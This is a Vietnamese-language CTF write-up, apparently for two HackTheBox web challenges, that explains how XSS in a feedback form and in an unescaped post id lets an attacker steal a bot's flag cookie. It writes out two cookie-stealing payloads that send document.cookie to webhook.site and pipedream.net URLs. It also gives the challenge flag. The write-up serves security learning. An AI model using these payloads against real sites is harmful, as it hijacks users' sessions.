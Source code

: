 
URL: http://178.128.33.213:30087/
1. Phân tích chung
- Người ra đề cho full source code của bài nên việc nhìn ra bug ở 2 bài này là khá dễ, đối với những dạng bài như thế này không cung cấp source code thì sẽ phù hợp hơn cho việc suy đoán về lỗ hổng.
- Cả hai bài đều có một điểm chung là set flag cho bot thông qua cookie.
- ![image](https://user-images.githubusercontent.com/22276712/205419252-3bb7dd45-b83e-40c0-bbdc-99655213e6ed.png)
- Khi Set flag trong cookie thì việc lấy được flag thì có một số hướng như sau:
+ Chiếm được tài khoản bot
+ Sử dụng HTTP Smuggling
+ Sử dụng XSS để lấy cookie=> Thiên về cách này hơn, vì cookie không được set secure có thể chiếm qua XSS.
2. web_quotes_blog
- có hai chức năng cần lưu ý
- ![image](https://user-images.githubusercontent.com/22276712/205420687-a53248b2-481a-4f48-813e-aa63c03d9db4.png)
- Đầu tiên là chức năng Submition, có vẻ như chức năng này sẽ giống như chức năng gửi góp ý hay thông tin hỗ trợ mà các trang web hiện đại hay dùng. Đối vỡi form này nếu không có cơ chế encode thì có thể dễ dàng bị blind XSS, vì phản hồi sẽ không hiển thị ra ngay lập tức mà phải check qua một phàn hồi tương tác ngoài trang web.
- chức năng thứ 2 là review: Chức năng này chỉ cho phép truy cập từ địa local=> chức năng này sẽ cho bot review
- ![image](https://user-images.githubusercontent.com/22276712/205422073-c66bef6f-cbe9-4ab2-9d36-a0c8cfa5f719.png)
- trong trang web review thì không có cơ chế encode nên dĩ nhiên chèn bất cứ đoạn mã js đều được thực thi 1 cách dễ dàng
- Cách lấy flag:
- Submit tới bot với payload: <script>document.location.href="https://webhook.site/a54c32a2-7c8f-4a55-8555-f069f2c63965?%22+document.cookie;</script>
- ![image](https://user-images.githubusercontent.com/22276712/205422275-9eb7f5e2-47d0-4cc4-b7a3-bba70db95424.png)

2. web_paid_forums
- Tương tự như bài quotes, nhưng lần này không có chức năng review không thể submit content lên để thực thi js được và chức năng report chỉ report theo ID của bài viết![image](https://user-images.githubusercontent.com/22276712/205425884-95c5769b-bd91-4ced-8444-20f2b4424176.png)
- Khi gọi đến địa chỉ /post/:id thì chức năng này sẽ render theo file post.html, các giá trị id sẽ được ép kiểu để thực hiện truy vấn lấy data từ database nhưng lúc render thì nhận nguyên giá trị ID từ người dùng
- ![image](https://user-images.githubusercontent.com/22276712/205426009-82d88cfd-3b58-4460-af06-7cc3475edff9.png)
- Kiểm tra file post.html, ta thấy giá trị id được truyền trực tiếp vào mã nguồn
- ![image](https://user-images.githubusercontent.com/22276712/205426039-0e3346a3-70ee-433f-89b5-7579c906bb9d.png)
- Hương giải quyết: vì ứng dụng đã ép kiểu giá trị nếu nhập giá trị id=3?"><script>alert(1)</script>=> thì giá trị nhận vào để truy vấn database sẽ là 3, còn giá trị in ra sẽ in nguyên cả giá trị JS. Lợi dụng điểm này để tiêm mã khai thác để lấy flag từ bot.
- - Cách lấy flag: 
- Mã khai thác: <img src=x onerror=this.src='https://eo21i1grt8xmwa4.m.pipedream.net/?'+document.cookie;>#
- ID submit lên bot: ![image](https://user-images.githubusercontent.com/22276712/205426146-307ded9d-9d8f-4188-8ccd-3350b4fdbde1.png)
- FLAG: HTB{d0m_x55_f0r_th3_w1n}
